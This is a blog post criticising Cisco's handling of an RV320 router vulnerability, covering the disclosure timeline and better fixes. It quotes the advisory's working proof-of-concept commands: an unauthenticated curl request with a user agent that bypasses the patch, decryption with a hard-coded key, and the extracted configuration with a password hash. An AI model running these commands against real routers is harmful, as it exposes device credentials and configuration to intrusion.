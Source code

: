 ```yaml
---
layout: post
title: Security an example how not to do it. 
---
```


Recently an security incident came in the news that shows how not to handle security incidents. 
First an small summary from my side of the issue based on the information from the people that discured the issue 
[redteam-pentesting.de] https://www.redteam-pentesting.de/en/advisories/rt-sa-2019-004/-cisco-rv320-unauthenticated-diagnostic-data-retrieval
The Cisco RV320 Dual Gigabit WAN VPN Router has a web based gui. 
With this GUI there is in the CGI-bin directory an utility program to download debug messages from the Router.
The security issue is that it not just downloads the debug messages (without password) , that could contain already information that you don't want to expose 
to the internet but much more,  also the system configuration and tarred copies of /etc and /var. 

The diagnostic data can be retrieved by issuing an HTTP POST request to
the vulnerable CGI program. OpenSSL is used to decrypt the data with the
hard-coded password "NKDebug12#$%" before unpacking it with tar (output
shortened):

------------------------------------------------------------------------
$ curl -k -A kurl -X POST --data 'submitdebugmsg=1' \
  'https://192.168.1.1/cgi-bin/export_debug_msg.exp' > debug

$ openssl aes-128-cbc -salt -md md5 -d \
  -k 'NKDebug12#$%' < debug > debug.tgz

$ mkdir output && tar -xf debug.tgz -C output/

$ ls -1 output/
debug_messages.txt
etc.tgz
nk_sysconfig
var.tgz

$ cat output/nk_sysconfig
####sysconfig####
[VERSION]
VERSION=73
MODEL=RV320
SSL=0
IPSEC=0
PPTP=0
PLATFORMCODE=RV0XX
[...]
[SYSTEM]
HOSTNAME=router
DOMAINNAME=example.com
DOMAINCHANGE=1
USERNAME=cisco
PASSWD=066bae9070a9a95b3e03019db131cd40
[...]
------------------------------------------------------------------------


Now the real issues with this security incident can be seen from the timeline: 
Timeline
========

2018-09-19 Original vulnerability identified
2018-09-27 Customer approved disclosure to vendor
2018-09-28 Vendor notified
2018-10-05 Receipt of advisory acknowledged by vendor
2018-10-05 Notified vendor of disclosure date: 2019-01-09
2018-11-18 List of affected versions provided by vendor
2018-12-21 Postponing disclosure to 2019-01-23, as requested by vendor
2019-01-22 Firmware 1.4.2.20 released by vendor
2019-01-23 Advisory (rt-sa-2018-003) published

2019-02-07 Incomplete mitigation of vulnerability identified
2019-02-08 Proof of concept sent to vendor
2019-02-08 Receipt of proof of concept acknowledged by vendor
2019-02-15 Full advisory sent to vendor
2019-02-15 Notified vendor of disclosure date: 2019-03-27
2019-03-25 Requested progress update from vendor
2019-03-25 Vendor requests postponed disclosure
2019-03-25 Postponement declined
2019-03-27 Advisory published

It took Cisco 3 months to fix this issue incorrectly. Then when informed that the fix was incorrect they needed more than 2 months. 
The problem is that if you publish a software  update for a security issue for an important piece of software or hardware, the bad guys will analyse your update. 
This will try to understand the issue in detail, the details that are typically left out from the initial problem description (CVE) to make it too easy for
the bad hackers to exploit the issue. 

They try to understand in which part of the software the issues lies, how the old software is vulnerable and if there exists other security issues in the same software part 
that can be abused. 

Now when publishing such a security update, there is pressue to deliver a fix quickly. 

The current fix in firmware 1.4.2.20 disallows curl based on http user agent.  
This is a bad fix and a trivial change was made in the proof of content code above (-A kurl) to allow the issue to persist.

Better fixes would be 
    - Remove the export_debug_msg.exp completely from the sofware distribution. I could not find the functionality mentioned in the external software documentation so it looks to me like an internal command for Cisco support  personell.
    Check if it is really used in the field and if there are no other more secure procedures. 
    - Only export to the local network not to the entire internet. Stop any communication if is not form a local interface and make the answer non-routable. 
    This avoids the vulnerable software being scanned and abused remotely. 
    - Make the decryption key device specific instead of an hardcoded value. Each customer should provide some information to the support engineer that does not know yet, to decrypt the software. 
    For example Serial number of the device + the date the program was run as key.
    - Add a username/password to the program so only authorized users can run it.
    
Morale of the story 

Fixing security issues: 

Actively discuss and select a good solution for security fixes. Not the 'just fix it approach' but specify and discuss fixes. 
Propose multiple solutions and select the best one. 
Here Cisco management dropped the ball. That the engineer in question made the error is not good but that the supervisors did not catch the issue is unexcusable. 

Timelines: 

Security issues are race between the administrators of systems and the bad guys. The longer a fix takes the more damage is done.
A 3 month period for the first update is long, the more than 2 month for a correction on the earlier fix really hurt some people using this equipment. 

You need to have a process in place to produce emergency fixes quickly, in a matter of days, not months. 


